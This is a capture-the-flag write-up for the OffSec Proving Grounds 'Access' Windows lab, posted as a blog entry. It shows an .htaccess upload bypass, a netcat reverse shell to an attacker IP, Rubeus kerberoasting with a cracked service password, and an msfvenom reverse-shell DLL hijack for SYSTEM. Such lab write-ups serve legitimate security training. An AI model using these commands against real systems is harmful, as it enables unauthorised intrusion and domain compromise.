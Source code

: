 ```yaml
---
title: "Proving grounds Play: Access"
layout: post
date: 2023-08-16 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Windows
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play windows machine writeup"
---
```

# Walkthough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/Access/yt.png)](https://youtu.be/h1Br5umYxwc)

## Nmap

```sh
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-16 07:12:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49773/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Fuzzing

### Directories

```text
/uploads
/assets
/icons
/forms
```                                

## File Upload Vulnerability

![Upload 01](/assets/images/CTF/Proving_Grounds/Access/up1.png)

Upload a `.htaccess` file to overwrite the file upload configuration in the apache.

**Content of .htacess file**

```text
AddType application/x-httpd-php .evil
```

Upload the php remote code execution code to the server with extension as `rce.evil`

![Upload 02](/assets/images/CTF/Proving_Grounds/Access/up2.png)

### RCE

![RCE 01](/assets/images/CTF/Proving_Grounds/Access/rce1.png)

- Upload netcat windows binary to the server.
- Obtain reverse shell by executing netcat command.

![RCE 02](/assets/images/CTF/Proving_Grounds/Access/rce2.png)

- Transfer PowerView.ps1 to the attacking machine.

**Extract Users Information**

```text
-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt                   
svc_apache               svc_mssql                
The command completed successfully.
```

## Kerberos Abuse

The user `svc_mssql` has Service Principal Name, hence kerberoasting takes place.

```text
serviceprincipalname          : MSSQLSvc/DC.access.offsec
```

[Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

Run as below to obtain NTLM Hash.

```powershell
PS C:\xampp\tmp> .\Rubeus.exe kerberoast /nowrap
```

Copy the hash and crack it using john.

**Crack the hash**

![Crackthehash 02](/assets/images/CTF/Proving_Grounds/Access/crackhash.png)

Transfer [Invoke-Runas.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1) to the attacking machine. The script will allow us to run commands as certain users in the system using the username and password.

Obtain revese shell for user `svc_mssql` by using the invoke command to trigger the netcat reverse shell.

```powershell
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 'C:\xampp\htdocs\uploads\nc.exe <IP> 4444 -e cmd.exe'
```

![Revshell 01](/assets/images/CTF/Proving_Grounds/Access/revshell1.png)

## Privilege Escalation

**Abuse SeChangeNotifyPrivilege.**

```powershell
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
```

Bypass traverse checking allows us to perform seManageVolumeAbuse by performing dll hijacking.

[SeManageVolumeAbuse](https://github.com/CsEnox/SeManageVolumeExploit)

Transfer the binary to the remote machine and run as `svc_mssql` user.

```powershell
PS C:\xampp\tmp> .\SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
Entries changed: 916
DONE 
```

Create a dll file with windows reverse shell.

```sh
msfvenom -f dll -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=9090 -o Printconfig.dll
```

Transfer the dll file to the attacking machine and overwrite the file to the below location.

`C:\Windows\system32\spool\drivers\x64\3\Printconfig.dll`

![Copy](/assets/images/CTF/Proving_Grounds/Access/copy.png)

Switch to powershell and use the below trigger to obtain root.

```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
[More...](https://github.com/CsEnox/SeManageVolumeExploit)

![trigger](/assets/images/CTF/Proving_Grounds/Access/trigger.png)

**Root shell Obtained**

![trigger](/assets/images/CTF/Proving_Grounds/Access/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).